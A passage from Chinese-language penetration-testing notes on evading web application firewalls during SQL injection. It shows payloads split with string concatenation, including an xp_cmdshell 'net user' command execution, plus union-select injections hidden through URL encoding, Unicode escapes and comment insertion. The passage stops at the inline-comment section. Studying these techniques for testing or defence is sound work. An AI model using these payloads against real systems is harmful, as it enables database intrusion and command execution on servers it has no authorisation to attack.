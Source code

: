 3. 特殊字符拼接

   * 出现原因：**拼接特殊字符**来绕过WAF检测

   * 用法

     ```
     id=1;exec(master..xp_cmdshell'net user')
     =>  id=1;exec('maste'+'r..xp'+'_cmdshell'+'"net user"')
     ```

###### ③编码绕过

* 出现原因：利用浏览器上的**进制转换或者语言编码规则**来绕过waf
* unicode、HEX、URL、ascii、base64等URL编码

1. URL编码

   * 浏览器会对地址栏中，**非保留字**的字符进行URL编码

   * 用法（可以尝试多次编码绕过）

     ```
     //如果waf拦截了union select
     	1' union select 1,2,3 --+
     => 	1' %75%6E%69%6F%6E %73%65%6C%65%63%74 1,2,3 --+
     ```

2. Unicode编码

   ```
   //如果waf拦截了union select
   	1' union select 1,2,3	(替换了i)
   =>	1' un%u0069on sel%u0065ct 1,2,3
   ```

3. 16进制

###### ④注释绕过

* //、 -- 、/* * /、#、--+、-- -、;、--a、/*! */
* 出现原因：利用**语言函数特性**来绕过waf的规则

1. 普通注释

   * 使用/* * /在构造的**查询语句中插入注释**，规避对**空格的依赖**或**关键字**识别

   * 用法

     ```
     	1' union select 1,2,3
     => 	1' /**/union/**/select 1,2,3
     =>	1' /**/union/**/select 1,2,database/*%!a*/()		# 使用/*%特殊符号*/的形式绕过对/**/的正则过滤
     ```

2. **内联注释**

   * **/*! */**只有mysql能识别

   * 用法
